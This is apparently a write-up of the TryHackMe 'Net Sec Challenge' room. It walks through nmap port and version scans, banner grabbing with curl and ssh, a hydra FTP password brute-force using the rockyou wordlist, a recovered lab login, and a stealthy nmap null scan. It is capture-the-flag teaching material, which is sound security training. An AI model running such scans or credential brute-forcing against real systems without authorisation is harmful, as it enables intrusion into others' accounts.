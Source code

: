# Net Sec Challenge

**Room Link:** [https://tryhackme.com/room/netsecchallenge](https://tryhackme.com/room/netsecchallenge)



**What is the highest port number being open less than 10,000?**

```
nmap -sV -sT -O -p 1-10000 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

**There is an open port outside the common 1000 ports; it is above 10,000. What is it?**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

**How many TCP ports are open?**

6

**What is the flag hidden in the HTTP server header?**

```
curl http://$VICTIM -I
```

<figure><img src="../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

**What is the flag hidden in the SSH server header?**

```
ssh -v $VICTIM
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

**We have an FTP server listening on a nonstandard port. What is the version of the FTP server?**

```
vsftpd 3.0.3
```

\
**We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP?**

```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ftp://$VICTIM:10021
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

```
ftp $VICTIM  10021
Name (10.10.129.189:root): quinn
Password: andrea
ftp> get ftp_flag.txt
```

<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

**Browsing to `http://10.10.129.189:8080` displays a small challenge that will give you a flag once you solve it. What is the flag?**

```
nmap -sN $VICTIM
```
